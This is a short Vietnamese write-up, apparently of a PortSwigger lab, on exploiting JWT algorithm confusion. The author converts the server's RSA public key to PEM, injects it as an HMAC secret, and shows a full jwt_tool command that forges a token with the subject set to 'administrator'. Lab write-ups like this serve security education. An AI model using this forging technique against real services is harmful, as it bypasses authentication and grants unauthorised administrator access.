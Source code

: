 ![image](https://github.com/user-attachments/assets/af297625-c482-43b0-b5d4-ee03c5405261)

![image](https://github.com/user-attachments/assets/d0530a60-4e19-4af7-b1fb-ab9e6e90ffe8)

Ở challenge này thì qua quá trình recon ta biết được tồn tại file `jwks.json` trên server.

Lỗ hổng algorithm confusion xảy ra khi server không xử lý đúng cơ chế kiểm tra thuật toán (algorithm) trong JSON Web Token (JWT). Cụ thể, nếu server hỗ trợ nhiều thuật toán để ký và xác thực JWT, nhưng lại không kiểm tra hoặc xử lý cẩn thận, kẻ tấn công có thể đánh lừa server sử dụng một thuật toán khác để xác minh chữ ký, dẫn đến bypass xác thực.

Server sử dụng RSA để ký và xác minh JWT (thuật toán mạnh mẽ, bất đối xứng).

Tuy nhiên, kẻ tấn công có thể khai thác lỗi để ép server sử dụng thuật toán HMAC (một thuật toán đối xứng), dẫn đến khả năng tự tạo chữ ký hợp lệ.

![image](https://github.com/user-attachments/assets/43a7a5af-5a35-4903-93d4-15684c6f1706)

Tiến hành copy public key này và chuyển sang dạng `PEM`

![image](https://github.com/user-attachments/assets/fd365b30-aeab-4f8f-adc9-ac5e1d9109be)

Tiến hành encode với base64 để chuẩn bị inject.

![image](https://github.com/user-attachments/assets/374dca4d-1d52-4e58-a480-31924a471fd3)

Tiến hành inject vào trường K.

![image](https://github.com/user-attachments/assets/db2acfff-34bc-4885-b499-6a2fc112da27)

Nhưng cách này vẫn đang không được, tôi chả hiểu kiểu gì luôn.

Tiến hành làm bằng jwt tool thôi.

```
python .\jwt_tool.py eyJraWQiOiJhYzY5YjI3NC1hN2ZjLTRiY2UtOGVkOS1lZjRkNjg1M2VkN2YiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczNDg2NzQyNCwic3ViIjoid2llbmVyIn0.kWEPdcWaB7eFUM05Hr8sZtKdm1OMWlyXGD5O3FseD4_v4xu5PH647XU0q3k4NeaiKgDkZrGxxn8zzDvrYtkbg08shhaVhZZlBr7GzDw6_BhwuwGPOwKPEceCLT7lpleG3mXlOCBoshHcQydlpDNOgatMOYSK253iA4eve0zwsliiyCg_dqfmDPE6ilaT-ACQVfdXVw4W3KEcHBrsl2KIXDtLItuBVHiFjfCRKY_CzF5oY811vis7OjB22LQ1EXBXth4ykHeYYD0I6wXrVEzFzsXIRxJuN-x2DQUhoo1RtVM_EtcZ7M9FXA-gYQDFtyvPMnxNv4WkWvJpn97PvxpMAw -X k -pk .\Test.pem -I -pc sub -pv administrator
```

![image](https://github.com/user-attachments/assets/4cad86b8-a147-40cd-a199-0b6b55fd2f19)

Vậy là thành công, à lưu ý phải copy public key dưới dạng pem trước nhé.

![image](https://github.com/user-attachments/assets/7c4746fc-82cb-438e-9747-b6cbb9cfcaeb)

Xong v:
